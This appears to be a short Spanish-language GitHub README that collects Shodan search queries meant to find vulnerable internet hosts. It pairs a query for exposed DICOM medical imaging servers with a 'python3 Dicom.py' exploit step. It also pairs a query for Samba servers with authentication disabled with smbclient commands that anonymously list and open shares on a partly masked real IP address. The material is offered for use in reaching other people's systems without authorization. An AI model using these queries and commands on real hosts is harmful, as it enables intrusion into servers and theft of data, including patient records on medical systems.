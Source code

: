 # Exploits-Shodan

Recopilación de Querys de shodan con exploits :)

## DICOM 

```sh
"DICOM Server Response" port:104
```

## Exploit:

```sh
python3 Dicom.py
```

![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/29f923e0-fbde-4526-a199-fbf71cb5319f)

## Authentication Disabled SMB

```sh
"Authentication: disabled" port:445 product:"Samba" 
```
## Access:

```sh
smbclient -L //200.x.x.29/ -N  
smbclient //200.x.x.29/info
```

![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/da427f4b-0f7b-4f2b-9b0e-326da7e78420)
